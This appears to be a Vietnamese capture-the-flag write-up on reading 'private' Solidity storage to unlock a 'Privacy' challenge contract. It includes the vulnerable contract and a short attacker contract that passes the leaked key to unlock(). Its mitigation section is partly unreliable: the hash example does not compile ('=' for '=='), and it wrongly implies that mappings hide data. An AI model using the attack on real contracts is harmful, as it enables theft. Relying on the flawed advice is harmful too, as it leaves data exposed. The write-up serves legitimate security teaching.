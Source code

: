 ### Kết luận
- Lỗ hổng: Dữ liệu trong storage của hợp đồng không được mã hóa và có thể được đọc bằng cách sử dụng các công cụ như:
+ `web3.eth.getStorageAt` (truy cập trực tiếp vào các slot lưu trữ).
+ `Remix IDE` (chức năng debug và đọc storage).
- Cách phòng tránh: Sử dụng `mapping` để lưu trữ dữ liệu thay vì mảng trực tiếp, Không lưu trữ dữ liệu nhạy cảm trực tiếp trong `storage`
- Hoặc có thể lưu giá trị hash.
- VD:
```solidity
bytes32 private secrectKey;
function unlock(bytes16 _key) public {
    require(keccak256(abi.encodePacked(_key) = secrectKey, "...");
//....
}
```
- VD về Contract tấn công:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface IPrivacy{
    function unlock(bytes16 _key) external;
}
contract PrivacyAttack{
    IPrivacy public victim;
    constructor (address challenge){
        victim = IPrivacy(challenge);
    }
    function attack(bytes32 fullkey) external{
        bytes16 key = bytes16(fullkey); 
        // Do key trong hop dong pivacy lay 16 byte dau
        // cuar data[2]
        victim.unlock(key);
    }
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```

